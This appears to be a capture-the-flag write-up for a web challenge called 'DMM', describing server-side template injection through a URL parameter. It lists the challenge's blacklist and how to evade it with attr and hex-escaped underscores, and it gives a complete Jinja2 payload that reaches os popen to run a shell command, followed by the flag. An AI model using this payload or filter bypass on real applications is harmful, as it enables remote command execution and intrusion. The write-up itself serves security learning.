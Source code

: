 DMM
===
**Category**: Web

**Points**: 487 (22 solves)

**Author**: Rosee
### Description
```
Please check it carefully
```
### Solution
- Enter `?url` by any parameters. it render my ouput => `ssti` and i can see domain with `ssti` lmaoo :)
- it have a blacklist, i find list black list ```config, request, __, [], join```
- bypass `_` with `attr`
- bypass `[]` with `__getitem__`
- payload final : `{{(''|attr('\x5f\x5fclass\x5f\x5f')|attr('\x5f\x5fmro\x5f\x5f')|attr('\x5f\x5fgetitem\x5f\x5f')(1)|attr('\x5f\x5fsubclasses\x5f\x5f')()|attr('\x5f\x5fgetitem\x5f\x5f')(132)|attr('\x5f\x5finit\x5f\x5f')|attr('\x5f\x5fglobals\x5f\x5f')|attr('\x5f\x5fgetitem\x5f\x5f')('popen'))('cat flag.txt').read()}}`
### Flag
- `darkCON{w0ww_y0u_ar3_sUp3er_h4ckeR_ggwpp_!!}`
